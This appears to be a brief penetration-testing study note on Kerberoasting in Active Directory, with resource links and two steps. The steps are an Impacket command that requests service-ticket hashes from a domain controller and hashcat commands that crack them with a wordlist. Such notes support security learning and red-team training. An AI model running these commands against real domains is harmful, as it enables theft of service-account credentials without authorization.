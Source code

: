 # Kerberoasting Overview

## Resources

* [https://medium.com/@Shorty420/kerberoasting-9108477279cc](https://medium.com/@Shorty420/kerberoasting-9108477279cc)
* [https://www.redsiege.com/wp-content/uploads/2020/04/20200430-kerb101.pdf](https://www.redsiege.com/wp-content/uploads/2020/04/20200430-kerb101.pdf)
* [https://www.youtube.com/watch?v=LmbP-XD1SC8&t=30s&ab\_channel=SANSOffensiveOperations](https://www.youtube.com/watch?v=LmbP-XD1SC8&t=30s&ab_channel=SANSOffensiveOperations)
* [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)

![](../../../.gitbook/assets/kerberoasting-overview.png)

## Kerberoasting Attack Overview

### Step 1: Get SPNs \(Service Principal Name\), Dump Hash

```bash
python getuserspns.py <DOMAIN/username:password> -dc-ip <ip of DC> -request
```

### Step 2: Crack the Hash

```bash
hashcat --help | grep Kerberos
hashcat -m 13100 kerberoasthash.txt rockyou.txt
```

